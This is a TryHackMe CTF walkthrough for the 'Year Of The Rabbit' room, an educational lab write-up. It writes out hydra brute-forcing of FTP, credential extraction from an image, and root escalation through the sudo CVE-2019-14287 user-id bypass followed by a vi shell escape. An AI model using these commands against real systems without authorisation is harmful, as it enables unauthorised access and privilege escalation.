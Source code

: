 ```yaml
---
title: Year Of The Rabbit - Tryhackme Writeup
author: D_C4ptain
date: 2023-01-26 16:33:00 +0300
categories: [tryhackme, write up]
tags: [tryhackme, write up, walkthrough, ctf, thm, nmap, gobuster, burpsuite, hydra, ftp, cryptography, brute force, sudo, privilege escalation, shell, tryhackme walkthrough, tryhackme writeup, d_captain]
math: true
mermaid: true
image:
  path: https://cdn-images-1.medium.com/max/2000/1*BXp30fi4okA86U-T_DoToA.png
---
```


Time to enter the warren…  
[Room link](https://tryhackme.com/room/yearoftherabbit)

## Task 1

What is the user flag?

### Recon

Scanning the machine, we see that FTP, SSH and HTTP are running.

    nmap -sSCV 10.10.19.5 -v

![](https://cdn-images-1.medium.com/max/2000/1*Y8zcOG-t_g_4PRElcl9TSg.png)

Checking for a website, we are greeted with a default apache welcome page.

![](https://cdn-images-1.medium.com/max/2000/1*Xa_8mVtORuSVkA39qtOsQQ.png)

Checking for any directories with gobuster, I found a css file with some handy info.

    gobuster dir -u http://10.10.19.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

![](https://cdn-images-1.medium.com/max/2000/1*v_A-7iQadP4sePjRzmoV2g.png)

![](https://cdn-images-1.medium.com/max/2000/1*WQP9KQouuWvpYLcNBAn1HA.png)

Accessing the secret page, prompts us to turn off javascript and we are redirected to “Rick Astley’s Never Gonna Give You Up”.

![](https://cdn-images-1.medium.com/max/2000/1*Uqp8_4FAsIFWM75GuC8XsA.png)

I’ve come across such a redirection before so I decided to check it out with burp.
I found an intermediary directory.
You can also easily see it on the browser developer tools, under network.

![with burpsuite.](https://cdn-images-1.medium.com/max/2000/1*zUpniXhuMwdEQk6aBqWxNw.png)*with burpsuite.*

![Developer tools, Network.](https://cdn-images-1.medium.com/max/2000/1*UC54cYSZ7prc55JX-iINAg.png)*Developer tools, Network.*

Navigating to the hidden directory, we get a png file.
I downloaded the file and as usual with images run ‘strings’ on it.
I found an ftp username with a bunch of random passwords.

![](https://cdn-images-1.medium.com/max/2000/1*Uk3AC1FD5az1uISFt-opfw.png)

### Brute force

Let’s dump these passwords to a file and brute force the ftp service with hydra.

    strings Hot_Babe.png >> ftppasses.txt
    
    (remove the unnecessary junk strings)
    
    hydra -l ftpuser -P ftppasses.txt ftp://10.10.19.5

![](https://cdn-images-1.medium.com/max/2000/1*kHaN5iS_Kq3sE8oAvTPPCA.png)

We can now log in to FTP.
Looking around we find some creds, let’s get them.

![](https://cdn-images-1.medium.com/max/2000/1*IIqn3tZ9SdgaC9LZZVAADA.png)

### Some cryptography

Opening the creds file reveals weird stuff.  
Ever heard of [brainfuck](https://en.wikipedia.org/wiki/Brainfuck)? I’ll leave you to that.

![](https://cdn-images-1.medium.com/max/2000/1*VYeAEjCKD88O61VGmq_9pA.png)

Let’s decode it [here](https://www.dcode.fr/brainfuck-language).

![](https://cdn-images-1.medium.com/max/2000/1*U1PS1sRJbzXZPh__9OLpvA.png)

Nice, Remember that SSH service? Let’s try logging in with these decrypted creds.

![](https://cdn-images-1.medium.com/max/2238/1*wVzvS1i1nIBXx3GodESQ4Q.png)

### Privilege escalation

Walking around, I found another user `Gwendoline` and our flag but we can’t read it.  
We need to become Gwendoline.

![](https://cdn-images-1.medium.com/max/2000/1*IVy3KFTZgc4nyKJMYx5H9Q.png)

From the note by root, we know there’s some secret place, let’s find it.

    locate s3cr3t

![](https://cdn-images-1.medium.com/max/2000/1*S_zYSWWrDwhsJQkZCPei7w.png)

Checking Gwendoline’s message, we get more creds.

![](https://cdn-images-1.medium.com/max/2000/1*JbF8Dc5ExA-Gcbk-hkinQw.png)

Let’s become Gwen and read our flag!

![](https://cdn-images-1.medium.com/max/2000/1*2s1YCyv0FyhmrfDzsh5UuQ.png)

## Task 2

What is the root flag?

Time to be root now! Before checking stuff with linpeas, let’s find low hanging fruits.

    sudo -l

![](https://cdn-images-1.medium.com/max/2152/1*RG8tIav75E02kurDLaOIKw.png)

Seems Gwen is not allowed to run vi as sudo.  
Checking the sudo version, I discovered it to be vulnerable to [CVE-2019–14287](https://www.exploit-db.com/exploits/47502)

![](https://cdn-images-1.medium.com/max/2000/1*H2TeUStcYPDgxH2Jep2UyQ.png)

We can run vi as sudo by providing the user id -1 which is translated to 0(root) by this sudo version.  
We will try to read the user.txt file.

    sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

![](https://cdn-images-1.medium.com/max/2000/1*akYI_2LdzkSBwVJO_TJYHw.png)

Let’s escape vi by typing:

    :!/bin/bash

From the new root shell we can read our root flag.

![](https://cdn-images-1.medium.com/max/2000/1*7vZTg5QWuky6fSHLgeuDBQ.png)

If you liked it give it a thumbs up. Thanks to [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle) for this box.

And by the way, There are many ways of killing a rat!

[Originally posted on medium](https://d-captain.medium.com/year-of-the-rabbit-tryhackme-writeup-87bd1a63bb49).

Happy Hacking.
